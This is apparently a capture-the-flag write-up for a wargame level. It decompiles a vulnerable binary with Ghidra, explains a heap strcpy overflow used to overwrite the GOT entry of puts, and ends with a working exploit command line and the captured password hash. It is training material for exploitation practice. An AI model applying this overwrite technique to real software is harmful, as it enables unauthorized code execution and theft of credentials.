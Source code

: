 get the binary on host
* `scp -P 4242 level7@192.168.56.107:./level7 ./binary/level7`

decompile using ghidras
```c
                undefined4 main(undefined4 param_1,int param_2)
                {
                    undefined4 *puVar1;
                    undefined4 uVar2;
                    undefined4 *puVar3;
                    
                    puVar1 = (undefined4 *)malloc(8);
                    *puVar1 = 1;
                    uVar2 = malloc(8);
                    puVar1[1] = uVar2;
                    puVar3 = (undefined4 *)malloc(8);
                    *puVar3 = 2;
                    uVar2 = malloc(8);
                    puVar3[1] = uVar2;
                    strcpy(puVar1[1],*(undefined4 *)(param_2 + 4));
                    strcpy(puVar3[1],*(undefined4 *)(param_2 + 8));
/*080485c2*/        uVar2 = fopen("/home/user/level8/.pass", "r");
/*080485eb*/        fgets(c,68,uVar2);
/*080485f0*/        puts("~~");
                    return 0;
                }
/*080484f4*/    void m(void)
                {
                    undefined4 uVar1;
                    
                    uVar1 = time(0);
                    printf("%s - %d\n",c,uVar1);
                    return;
                }
```

GOT Overwrite, replace puts return by function m\
We need addr of `m()`, `puts()` and `the offset for puVar1[1]`
* m addr ====> 0x0804 84f4
* puts addr => 0x08049928
* offset is 20

since the second strcpy add argv[2] to argv[1] we can do this

```
$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```